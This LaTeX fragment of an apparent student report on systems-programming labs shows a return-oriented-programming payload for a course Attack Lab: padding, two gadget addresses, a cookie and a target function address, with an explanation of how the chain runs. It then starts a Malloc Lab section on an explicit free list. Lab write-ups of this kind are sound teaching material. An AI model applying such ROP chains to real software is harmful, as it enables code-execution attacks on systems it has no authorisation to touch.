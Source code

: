 \documentclass[11pt]{report}
\begin{document}
With that information collected we can construct the payload:
\begin{lstlisting}
00 00 00 00 00 00 00 00 /* padding start */
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* padding end */
8B 29 40 00 00 00 00 00 /* gadget 1 */
88 7a 22 43 00 00 00 00 /* cookie */
75 29 40 00 00 00 00 00 /* gadget 2 */
7c 27 40 00 00 00 00 00 /* touch2 address */ 
\end{lstlisting}
It starts with the padding, then the first gadget, which will be executed first. Then the cookie, which will be popped to \textit{\%rax}. Then the second gadget, which will move the value to \textit{\%rdi}. And finally the address of the \textit{touch2} method, which will be executed after the gadget.\\[1ex]

\chapter{Malloc Lab}
\section{A}
The function \textit{mm\_malloc}, see appendix \ref{appendix:malloc_lab_code_mm_malloc}, takes a size $x$, finds or creates a spot for it on the heap and places it, removing it from available memory. My implementation of malloclab uses an explict free list, which is essentially just a linked list between all the free blocks of memory.

An 8 word block of memory is allocated as 10 words, where 2 are used for the header and footer, figure \ref{fig:malloc_lab_a} illustrates such a free block.\\

\begin{figure}[h]
    \centering
    \caption{Free block}
    \label{fig:malloc_lab_a}
\end{figure}
\end{document}
